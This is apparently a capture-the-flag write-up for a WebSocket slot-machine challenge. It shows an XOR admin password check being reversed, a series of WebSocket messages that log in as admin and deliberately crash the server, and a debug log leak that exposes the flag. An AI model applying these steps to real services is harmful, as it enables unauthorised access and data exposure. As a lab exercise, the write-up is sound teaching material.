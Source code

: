 # Intergalactic bandit

The neighbouring aliens have been enjoying the classical One Armed Bandit at the casino. However, they can't seem to win anything. Can you show them how?

https://uithack.td.org.uit.no:8888

[⬇️ app.py](./app.py)

# Writeup

It seems like everything need to be happening at websocket. I did a quick google to find a method to be able to re-use the same websocket as the tab I have open. (This was after all not nessesary but it worked to get the flag).

Basically run `queryObjects(WebSocket)` in the terminal it will list all connected websockets. Then right click the one and `Store as global variable`.

You can now use `temp1` to get the socket.

![Alt text](image.png)

I crafted a message which was sent when I pressed the spin button as a POC:

```javascript
temp1.send('{"type": "spin"}')
```

Now I looked and saw a lot of other commands I could send in [app.py](./app.py). I saw that I could login as admin and it validated the password with the below script:

```python
def verify_admin(pswd: str) -> bool:
    if len(pswd) == 0:
        return False

    p = bytearray(pswd, "utf-8")
    x = bytearray("*" * len(pswd), "utf-8")
    for i in range(len(pswd)):
        x[i] = (p[i] ^ i) ^ x[i]

    return x == b"B^F]K]\x1e"
```

Reversing this to get the password was simple enought as it is `XOR` and fully reversible. So I reversed this with this:

```python
enc = b"B^F]K]\x1e"
key = bytearray("*" * len(enc), "utf-8")
for i in range(len(enc)):
  key[i] = ((enc[i] ^ i) ^ key[i])

print(key)
```

which yielded `hunter2`. After that I could login as admin with the password `hunter2` and get the flag set in my session. This gives me nothing yet but the session is printed to a [log file](./app.py#L281) on every exception as long as debugging is on. And logfiles are hosted under `/logs/<uuid>`. Sending a `type` of `motherload` with no parameters will make the program crash and `info` will show the `session_id` which is the name of the log file.

```javascript
temp1.send('{"type": "login", "password": "hunter2"}')
temp1.send('{"type": "flag"}')
temp1.send('{"type": "debug"}')
temp1.send('{"type": "motherload"}')
temp1.send('{"type": "info"}')
```

shows this in websocket:

```json
> {"type": "login", "password": "hunter2"}
< {"message": "Logged in", "type": "admin"}
> {"type": "flag"}
> {"type": "debug"}
< {"message": "Debug mode enabled", "type": "admin"}
> {"type": "motherload"}
< {"message": "Don't be mean to the server, it got feelings 2 :(", "type": "error"} 
> {"type": "info"}
< {"coins": 200, "flag_price": 10000, "session_id": "99ec6252-6f4f-457c-8d14-fb5095c76399", "spin_cost": 20, "type": "info", "win_payout": 100}
```

Opening `https://uithack.td.org.uit.no:8888/logs/99ec6252-6f4f-457c-8d14-fb5095c76399` now shows:

```log
99ec6252-6f4f-457c-8d14-fb5095c76399 INFO New WS connection from ('192.168.208.2', 48126), assigned session id: 99ec6252-6f4f-457c-8d14-fb5095c76399
99ec6252-6f4f-457c-8d14-fb5095c76399 INFO Admin logged in, welcome back me! addr="('192.168.208.2', 48126)"
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG request: {'type': 'motherload'}
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG User state: session={'id': '99ec6252-6f4f-457c-8d14-fb5095c76399', 'addr': "('192.168.208.2', 48126)", 'coins': 200, 'admin': True, 'flag': 'UiTHack24{Passw0rd_1s_*******}'}
99ec6252-6f4f-457c-8d14-fb5095c76399 ERROR Error from addr="('192.168.208.2', 48126)":
Traceback (most recent call last):
  File "/app/bandit/app.py", line 254, in connect
    if session.get("admin", False) and verify_knowledge(msg["password"]):
                                                        ~~~^^^^^^^^^^^^
KeyError: 'password'
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG request: {'type': 'info'}
```

And the flag is `UiTHack24{Passw0rd_1s_*******}`.